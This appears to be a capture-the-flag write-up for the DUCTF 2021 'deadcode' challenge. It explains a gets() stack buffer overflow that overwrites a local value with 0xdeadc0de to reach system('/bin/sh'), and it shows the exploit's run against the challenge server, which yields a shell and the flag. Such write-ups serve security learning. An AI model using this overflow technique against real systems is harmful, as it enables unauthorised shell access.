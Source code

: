 For this challenge, we are presented with a single binary named "deadcode". When we run it, we get the following output and it hangs waiting for user input.

```
$ ./deadcode 

I'm developing this new application in C, I've setup some code for the new features but it's not (a)live yet.

What features would you like to see in my app?
```

Here's the disassembly of the main() function.

```asm
┌ 114: main ();
│           ; var int64_t var_20h @ rbp-0x20
│           ; var int64_t var_8h @ rbp-0x8
│           0x00401195      55             push rbp
│           0x00401196      4889e5         mov rbp, rsp
│           0x00401199      4883ec20       sub rsp, 0x20
│           0x0040119d      48c745f80000.  mov qword [var_8h], 0
│           0x004011a5      b800000000     mov eax, 0
│           0x004011aa      e8a3ffffff     call sym.buffer_init
│           0x004011af      488d3d520e00.  lea rdi, qword str.I_m_developing_this_new_application_in_C__I_ve_setup_some_code_for_the_new_features_but_it_s_not__a_live_yet. ; 0x402008 ; "\nI'm developing this new application in C, I've setup some code for the new features but it's not (a)live yet."
│           0x004011b6      e875feffff     call sym.imp.puts
│           0x004011bb      488d3db60e00.  lea rdi, qword str.What_features_would_you_like_to_see_in_my_app ; 0x402078 ; "\nWhat features would you like to see in my app?"
│           0x004011c2      e869feffff     call sym.imp.puts
│           0x004011c7      488d45e0       lea rax, qword [var_20h]
│           0x004011cb      4889c7         mov rdi, rax
│           0x004011ce      b800000000     mov eax, 0
│           0x004011d3      e888feffff     call sym.imp.gets
│           0x004011d8      b8dec0adde     mov eax, 0xdeadc0de
│           0x004011dd      483945f8       cmp qword [var_8h], rax
│       ┌─< 0x004011e1      751d           jne 0x401200
│       │   0x004011e3      488d3dbe0e00.  lea rdi, qword str.Maybe_this_code_isn_t_so_dead... ; 0x4020a8 ; "\n\nMaybe this code isn't so dead..."
│       │   0x004011ea      e841feffff     call sym.imp.puts
│       │   0x004011ef      488d3dd50e00.  lea rdi, qword str.bin_sh   ; 0x4020cb ; "/bin/sh"
│       │   0x004011f6      b800000000     mov eax, 0
│       │   0x004011fb      e850feffff     call sym.imp.system
│       └─> 0x00401200      b800000000     mov eax, 0
│           0x00401205      c9             leave
└           0x00401206      c3             ret

```

In the prologue we can see that it's making 32 bytes (0x20) of space on the stack and then setting the last eight bytes to 0x0. Next it calls a buffer_init() function which disables buffering on standard input, standard output, and standard error which is commonly done in these types of problems. Next, it prints out the two lines we saw when we ran it by calling puts() twice. Next it calls gets() to read input from the user and stores it starting at the 32 byte space it made on the stack. Finally it checks to see whether the value represented by the last eight bytes of the space it made on the stack (and which it had previous set to 0x0) is equal to 0xdeadc0de and if not it jumps to the epilogue and exits. If the last eight bytes do contain that value, it falls through into code which prints out another string using puts() and then calls system("/bin/sh").

The gets() function reads user input until it encounters a newline character and there is no way for the programmer to limit the maximum amount of characters which the user sends before sending a newline character. Therefore, all that we need to do in order to write 0xdeadcode into the last eight bytes of the buffer is to send 24 characters of filler followed by the little-endian representation of the number 0xdeadcode.

Here's the output when run against the challenge server:

```
$ python deadcode.py REMOTE
[+] Opening connection to pwn-2021.duc.tf on port 31916: Done
[*] Switching to interactive mode


Maybe this code isn't so dead...
$ cat flag.txt
DUCTF{y0u_br0ught_m3_b4ck_t0_l1f3_mn423kcv}
```

